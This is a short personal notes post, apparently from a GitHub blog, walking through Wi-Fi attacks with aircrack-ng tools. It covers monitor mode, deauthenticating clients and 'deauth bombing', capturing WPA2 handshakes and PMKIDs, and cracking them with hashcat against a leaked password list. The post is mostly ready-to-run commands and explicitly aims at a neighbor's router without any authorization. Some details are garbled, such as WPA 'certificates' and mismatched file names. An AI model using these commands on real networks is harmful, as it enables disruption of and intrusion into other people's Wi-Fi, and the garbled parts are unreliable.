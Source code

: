 ```yaml
---
layout : post
title : Sniffing packets and testing those
date : 21-06-21
---
```


Wireless Network Adapter aka wifi card that is used to connect to wifi's 

WEP : oldest
WPA : Any certificate can lead to leak 
WPA2 : kick a user, then he reconnects, capture the certificate, 4-way handshake ,capture the certificate in betweeen   
WPA3 : all password attempts need to be on internet 



## Monitor mode
In this mode it becomes a radio sniffer, listens to all wireless signals in the air on a specific channel. Hear's everything happening in the room 

Wifi card can listen to 2.4Ghz, 5Ghz, 6Ghz bands 

It can sniff to any frequency band that its capable of in the above range

So what you do is you deauth the neighbor's router by sending 'deauthentication packets' ? ( how can I send deauth packets ? )
deauth is broken, part of 802.11 management frames, are not protected in WPA/WPA2 - Personal , can be spoofed / faked by anyone in the range 


Particular client deauth attack 

```
BSSID              STATION            PWR   Rate    Lost    Frames  Probes
AA:BB:CC:DD:EE:FF  11:22:33:44:55:66  -45   1e-1     0       800     -
```

Station MAC is the client MAC 

Get all clients :
`airodump-ng --bssid <router MAC> -c <channel> wlo1mon`

Deauth bombing: 
`aireplay-ng --deauth 100 -a <router MAC> wlo1mon`

Deauth particular user : 
`aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlo1mon`

When the client connects back, we capture the 4-way handshake packets EAPOL Packets, and they are stored to the .cap files 

We dont need to decrypt this, rather we just need to match with the leaked password list and get the wifi password !! 


#  scan the wifi : 
sudo iwlist scan 

# top networks
sudo airdump-ng start wlo1mon , or , 
sudo airodump-ng wlo1mon --write scan --output-format csv

# set the channel to capture
sudo iw dev wlo1mon set channel 1

# get all wifi present and bssid
sudo iw dev wlo1 scan 

## Get into monitor mode 
sudo airmon-ng start wlo1

## manager mode
sudo airmon-ng stop wlo1mon


## airodump : 
sudo airodump-ng --bssid <bssid> -c <channel-name> -w capture wlo1mon

eg:
sudo airodump-ng --bssid 6c:4f:89:9a:3f:af -c 44 -w capture wlo1mon

## aireplay 

sudo aireplay-ng --deauth 20 -a 6c:4f:89:9a:3f:af wlo1mon --ignore-negative-one


# HASHCAT for WPA-2

## PMKID ( Pairwise Master Key Identifier (PMKID) )

# hcxdump-tool
sudo hcxdumptool -i wlo1mon -w pmkid.pcapng --rds=1

# Tool to unpack
hcxpcapngtool -o pmkid.hccapx pmkid.pcapng

# Decode 
hashcat -m 22000 pmkid.hc22000 rockyou.txt --force


![hacked](https://github.com/user-attachments/assets/8ab726b5-c6b8-43e9-b184-a7207d1f3163)






